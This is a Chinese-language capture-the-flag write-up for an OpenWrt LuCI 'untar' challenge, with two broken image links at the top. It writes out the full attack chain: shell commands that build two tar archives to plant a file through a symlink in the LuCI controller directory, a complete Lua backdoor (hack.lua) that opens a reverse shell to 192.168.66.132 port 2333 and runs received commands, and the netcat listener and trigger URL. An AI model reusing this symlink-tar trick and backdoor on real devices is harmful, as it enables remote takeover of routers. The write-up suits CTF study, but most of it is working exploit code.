


# level3-untar writeup
## 过程
* 根据题目提示可知，上传 tar 文件后，后台服务器会将文件解压放在 /tmp/upload
  * 首先想要利用 tar 文件的名字构造命令，但是不行，可能是因为服务器将上传的文件统一命名。
  * 利用解压后存放在 /tmp/upload 的文件构造一句话木马
* 首先先构造软链接，由于 openwrt lua luci架构，将软链接定位到 /usr/lib/lua/luci/contorller/admin 目录下，这样后续将木马放在这，可以在网页端访问
* 之后创建 link 目录,在该目录下存放木马文件 hack.lua，打包为 tar 文件
* ```shell
    ln -s /usr/lib/lua/luci/controller/admin/ link
    tar -cvf 1.tar.gz link
    rm link
    mkdir link
    cd link && cat ../hack.lua > hack.lua
    cd ..
    tar -cvf 2.tar.gz link
    ```
* 将两个文件按顺序上传后，即可链接植入的后门
* ```lua
    -- hack.lua
    module("luci.controller.admin.hack", package.seeall)

    local socket = require("socket")
    local ip='192.168.66.132'
    function index()
        entry({"admin", "hack"}, call("action_hack"))
    end

    function action_hack()
        local sock = socket.tcp()
        sock:settimeout(20)  -- 设置超时时间为20秒

        local ok, err = sock:connect(ip, 2333)
        if not ok then
            luci.http.write("Failed to connect to the remote server: " .. err)
            return
        end

        while true do
            local data, err, partial = sock:receive()
            if data then
                local f = io.popen(data, "r")
                local b = f:read("*a")
                f:close()
                sock:send(b)
            elseif err == "timeout" then
                luci.http.write("Timeout while receiving data")
                break
            elseif err == "closed" then
                break
            else
                luci.http.write("Error while receiving data: " .. (err or ""))
                break
            end
        end

        sock:close()
    end
    ```
* 在 kali 上`nc -lvvp 2333`,然后在浏览器访问 `http://address/cgi-bin/luci/admin/hack`，连接成功，利用命令得到 flag
  
  
  
## exp 利用说明
* 在 untar 目录下运行 untar.py 即可，确保 hack.lua 在同一目录下
* 根据命令行提示，给出对应参数
* 根据自己主机ip地址修改 untar.py 代码中的 listen_host 参数